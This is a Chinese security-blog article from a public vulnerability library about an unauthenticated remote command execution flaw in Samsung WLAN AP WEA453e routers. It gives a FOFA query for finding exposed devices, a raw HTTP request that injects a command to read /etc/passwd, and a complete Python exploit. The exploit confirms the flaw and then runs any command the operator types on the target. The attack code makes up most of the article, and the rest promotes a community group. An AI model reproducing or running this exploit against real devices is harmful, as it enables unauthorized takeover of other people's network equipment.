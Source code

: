 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/rse0hnR6C2AfvzWiN7t8Qg)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

 IPDB 蓝队威胁共享

帮助红蓝对抗项目，精准判断，已知红蓝对抗项目攻击情报资源池，无需登陆 - 添加认证进群，即可

![](https://mmbiz.qpic.cn/mmbiz_png/Svw665Wd5NB8VrSmgiaxcRWZBMHQynHen8TLs67KKLN2f0wuaWDut35butozRj3OVlgoFxRY6gqfPGKe130SibPw/640?wx_fmt=png)

微信进群须知 - 获得途径

需要出示红蓝对抗项目参与证明发给我方审核人员，通过后即可进入群内并获取平台也可同全国红蓝对抗项目参与人员共同交流与讨论。点击左下角 “阅读原文” 即可进入填报审核进入

**审核人员：** **hackjie10086**

**审核人员：   2785494744**

![](https://mmbiz.qpic.cn/mmbiz_png/Svw665Wd5NCDSf71XrCt5jE4Rf0TYu22a9IheTk8qia7kyuiaBquBYowG2IWMtJIMTEjXhib5cCZGP6rGlT6dClDQ/640?wx_fmt=png)

**一****：漏洞描述🐑**

**三星 WLAN AP WEA453e 路由器  存在远程命令执行漏洞，可在未授权的情况下执行任意命令获取服务器权限**

**二:  漏洞影响🐇**

**三星 WLAN AP WEA453e 路由器**

**三:  漏洞复现🐋**

```
FOFA title=="Samsung WLAN AP"
```

**登录页面如下**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuIoicOoufbHiazJkatrOgtv11kTaOWjFjVbmaI82q1ib55nrXeQWibJk1AA/640?wx_fmt=png)

**请求包如下**  

```
POST /(download)/tmp/a.txt HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Content-Length: 48

command1=shell:cat /etc/passwd| dd of=/tmp/a.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuWrEgt4WxnPb0qIWjlsicsl7VBdbQbpN0mpodoQibmraPicZgWTDeP8c7w/640?wx_fmt=png)

 ****四:  漏洞 POC🦉****

```
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 三星 WLAN AP WEA453e路由器                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/(download)/tmp/a.txt"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "command1=shell:cat /etc/passwd| dd of=/tmp/a.txt"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "root" in response.text and response.status_code == 200:
            print("\033[36m[o] 目标 {} 存在漏洞, 响应为:\n{}\033[0m".format(target_url, response.text))
            while True:
                cmd = str(input("\033[35mCmd >>> \033[0m"))
                POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 目标 {} 不存在默认管理员弱口令     \033[0m".format(target_url))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/(download)/tmp/a.txt"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "command1=shell:{}| dd of=/tmp/a.txt".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[36m{} \033[0m".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuviaGLXhzF7icWBFibgA3AEAXGiclQclvJAMw49MOTlc8d6icib7HHicNHauzw/640?wx_fmt=png)

```
三星 WLAN AP WEA453e路由器  远程命令执行漏洞
https://github.com/PeiQi0/PeiQi-WIKI-POC
Goby & POC 目录中~
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuWj95iatevYzaNtoYlt1RQCdCzUacoMj73Bd7CA3PRV4zzlmdwQ2MKcw/640?wx_fmt=png)

 ****五:  关于文库🦉****

**在线文库：**

**http://wiki.peiqi.tech**

**Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 想要投稿的师傅加我，我们一起建设文库啦~  
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZutPrMibmTTAHfiatovIDtcdpmXXwz5EZgcJWsDqeMWkfLDIDdHaJ6zlUA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZux37ib46Zf4OLE4YRx0u30mwicOPhTjibIabUJnZp3sqdtmfEyEa5jtZibg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuJ7Cckiaq60WwNVnHrV5oXRpI52JyjMaMSoxvf9iav3ib9iautF12Wp30kw/640?wx_fmt=png)